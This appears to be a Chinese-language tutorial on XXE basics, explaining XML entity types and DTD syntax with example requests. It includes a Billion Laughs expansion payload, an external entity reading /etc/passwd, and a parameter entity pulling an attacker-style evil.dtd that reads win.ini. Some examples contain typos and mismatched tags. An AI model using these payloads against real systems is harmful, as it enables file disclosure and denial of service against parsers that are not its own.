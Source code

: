 ```yaml
---
title: "XXE 相关基础概念"
id: zhfly3585
---
```


## XXE 相关基础概念

**XML&DTD**

XML(可扩展标记语言，EXtensible Markup Language )，是一种标记语言，用来传输和存储数据

DTD(文档类型定义，[Document](http://www.liuhaihua.cn/archives/tag/document) Type Definition )的作用是定义XML文档的合法构建模块。它使用一系列的合法元素来定义文档结构。

**实体ENTITY**

XML中的实体类型，一般有下面几种：字符实体，命名实体（或内部实体）、外部实体（包含分为：外部普通实体、外部参数实体）。除外部参数实体外，其他实体都以字符（&）开始以字符（；）结束。

**DTD引用方式**

a)DTD 内部声明

```
<!ENTITY 实体名称 SYSTEM "URI/URL" 
```

b)DTD 外部引用

```
<!DOCTYPE 根元素名称 SYSTEM “外部DTD的URI"> 
```

c)引用公共DTD

```
<!DOCTYPE 根元素名称 PUBLIC “DTD标识名" “公用DTD的URI"> 
```

**0x1:字符实体**

字符实体类似html的实体编码，形如a(十进制)或者a（十六进制）。

**0x2:命名实体（内部实体）**

内部实体又叫命名实体。命名实体可以说成是变量声明，命名实体只能生命在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。

命名实体（或内部实体语法）:

```
<!ENTITY 实体名称 "实体的值"> 
```

如：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY x "First Param!">
    <!ENTITY y "Second Param!">
]>
<root><x>&x;</x><y>&y;</y></root> 
```

说明：

定义一个实体名称x 值为First Param!

&x; 引用实体x

知道以上语法后，可以使用名为foo的数据类型定义（DTD）构造如下请求:

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE foo [

<!ELEMENT foo ANY>

<!ENTITY bar “World”>

]>

<foo>

Hello &bar;

</foo>` 
```

respone:

```
HTTP/1.0 200 OK `Hello World` 
```

bar元素是单词“World”的别名 。看起来这样的内部实体似乎无害，但攻击者可以使用XML实体通过在实体内的实体内嵌入实体来导致拒绝服务攻击。通常被称为“ （Billion Laughs attack）[十亿笑攻击](https://en.wikipedia.org/wiki/Billion_laughs) ”。某些XML解析器会自动限制它们可以使用的内存量。

如：

request:

```
POST http://example.com/xml HTTP/1.1 `<!DOCTYPE foo [

<!ELEMENT foo ANY>

<!ENTITY bar "World ">

<!ENTITY t1 “&bar;&bar;”>

<!ENTITY t2 “&t1;&t1;&t1;&t1;”>

<!ENTITY t3 “&t2;&t2;&t2;&t2;&t2;”>

]>

<foo>

Hello &t3;

</foo>` 
```

response:

```
HTTP/1.0 200 OK `Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World` 
```

0x3):外部**普通实体**

外部实体用于加载外部文件的内容。(显示XXE攻击主要利用普通实体)

外部普通实体语法：

```
<!ENTITY 实体名称 SYSTEM "URI/URL" 
```

如：

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</xxe>
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPe root [
    <!ENTITY outfile SYSTEM "outfile.xml">
]>
<root><outfile>&outfile;</outfile></root> 
```

0x4):外部**参数实体**

```
<!ENTITY % 实体名称 "实体的值">
or
<!ENTITY % 实体名称 SYSTEM "URI"> 
```

参数实体用于DTD和文档的内部子集中。与一般实体不同，是以字符（%）开始，以字符(;)结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。(Blind XXE攻击常利用参数实体进行数据回显)

### 示例：

> 第一个例子

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo> 
```

外部evil.dtd中的内容。

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini" > 
```

> 第二个例子

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % param1 "Hello">
    <!ENTITY % param2 " ">
    <!ENTITY % param3 "World">
    <!ENTITY dtd SYSTEM "combine.dtd">
    %dtd;
]>
<root><foo>&content</foo></root> 
```

combine.dtd的内容为：

```
<!ENTITY content "%parm1;%parm2;%parm3;"> 
```

说明：

上面combine.dtd中定义了一个基本实体，引用了3个参数实体：%param1;，%param2;，%param3;。

解析后 … 中的内容为Hello World。